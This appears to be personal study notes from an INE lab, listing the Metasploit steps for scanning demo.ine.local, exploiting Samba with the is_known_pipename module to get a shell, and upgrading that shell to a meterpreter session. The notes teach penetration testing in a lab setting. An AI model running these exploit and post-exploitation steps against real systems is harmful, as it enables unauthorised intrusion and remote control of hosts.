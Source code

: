 #### upgrading command shell to meterpreter shell
- service postgresql start
- msfconsole
- workspace -a mywork
- db_nmap -sS -sV demo.ine.local
- search type:exploit name:samba
- use exploit/linux/samba/is_known_pipename
- this will give us a shell 
- ctrl+z [ background the shell]
- search shell_to_meterpreter
- use post/multi/manage/shell_to_meterpreter
- show options
- set session,lhost,lport 
- run
- this will give us meterpreter shell
